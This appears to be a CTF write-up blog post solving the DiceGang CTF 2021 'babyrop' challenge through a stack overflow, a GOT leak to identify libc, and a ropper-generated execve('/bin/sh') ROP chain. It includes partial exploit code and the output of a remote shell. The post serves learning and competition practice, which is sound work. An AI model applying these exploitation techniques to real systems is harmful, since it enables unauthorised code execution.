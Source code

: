 ```yaml
---
layout: post
title: DiceGang CTF 2021 - babyrop
author: hugsy
tags: [pwn,dicegang,rop,]
date: 2021-02-08 18:37
---
```


 * Competition: [DiceGang CTF 2021]()
 * Challenge Name: BabyRop
 * Type: Pwn
 * Points: 116 pts
 * Description:
 > "FizzBuzz101: Who wants to write a ret2libc"
 >
 > nc dicec.tf 31924


This was a beginner level challenge which as the name suggests is all about ROP. Some basic fingerprinting on the `babyrop` binary gives us useful information, such as no canary and partial RelRO.

```bash
$ file babyrop
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a721f8e2550d74dddcaae7e8754bff9095e3488d, for GNU/Linux 3.2.0, not stripped
$ checksec babyrop
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Opening the binary in a disassembler and the vulnerability becomes obvious: it's a basic stack overflow.

![img](https://i.imgur.com/2sB9fCv.png)

And we can quickly determine the distance to control `$rip` (since there's no canary)

```
0:000 ➤  pattern search $rsp
[+] Searching '$rsp'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 65 (big-endian search)
```

However, the libc version is unknown and we don't have enough gadgets in the binary itself to trigger a call to `system()` or make a `syscall`. After a bit of search, we spotted 2 interesting gadgets:

- `0x4011b0` would call an arbitrary location if we control r15 and rbx (and the parameter arguments)
![img](https://i.imgur.com/8T0TTPH.png)
- `0x4011ca` would pop all the required registers
![img](https://i.imgur.com/NotESgM.png)

The binary uses `gets` and `write` therefore we have enough to build an arbitrary `read` primitive.

```python
def read(addr, length):
    pop_rbx_rbp_r12_r13_r14_r15 = 0x4011ca
    call_r15_rbx = 0x4011b0

    return flat(
        p64(pop_rbx_rbp_r12_r13_r14_r15),
        p64(0),
        p64(1),
        p64(1),
        p64(addr),
        p64(length),
        p64(0x0404018),
        p64(call_r15_rbx),
        b"JUNKJUNK"*7,
    )
```

If we apply it to the GOT of `write` (GOT 0x404018) and `gets` (GOT 0x404020), we have all we need to leak 2 libc addresses:

```
[*] leaking libc addresses...
[+] write: 0x7ffff7eda1d0
[+] gets: 0x7ffff7e4faf0
```

From just those 2 addresses, we can determine the libc using https://libc.blukat.me, which [pointed to `libc6_2.31-0ubuntu9.1_amd64`](https://libc.blukat.me/?q=write%3A0x7f859309e1d0%2Cgets%3A0x7f8593013af0).


In this case, the size of the ropchain is not a problem, so I downloaded the libc and used [`ropper`](https://github.com/sashs/Ropper) with its `--chain` argument to get easily a working chain to do `execve("/bin/sh")`

```python
    # shellcode from ropper --chain="execve cmd=/bin/sh""
    rebase_0 = lambda x : p64(x  + libc_base)
    rop = b''
    rop += rebase_0(0x000000000002911d) # 0x000000000002911d: pop r13; ret;
    rop += b'//bin/sh'
    rop += rebase_0(0x00000000000331ff) # 0x00000000000331ff: pop rbx; ret;
    rop += rebase_0(0x00000000001eb1a0)
    [...]
    rop += rebase_0(0x000000000004a550) # 0x000000000004a550: pop rax; ret;
    rop += p64(0x000000000000003b)
    rop += rebase_0(0x0000000000066229) # 0x0000000000066229: syscall; ret;
```

That's it, put it all together and we have a [working exploit](https://gist.github.com/hugsy/d8d2a775d8ca4604596aa90ecaccd48e) we can execute remotely, and cat the flag:

```bash
$ ./xp.py
[...]
[+] write: 0x7ffff7eda1d0
[+] gets: 0x7ffff7e4faf0
[+] libc:0x7ffff7dc9000
[+] system:0x7ffff7e1e419
[*] Switching to interactive mode
$ cat flag.txt
dice{so_let's_just_pretend_rop_between_you_and_me_was_never_meant_b1b585695bdd0bcf2d144b4b}
```
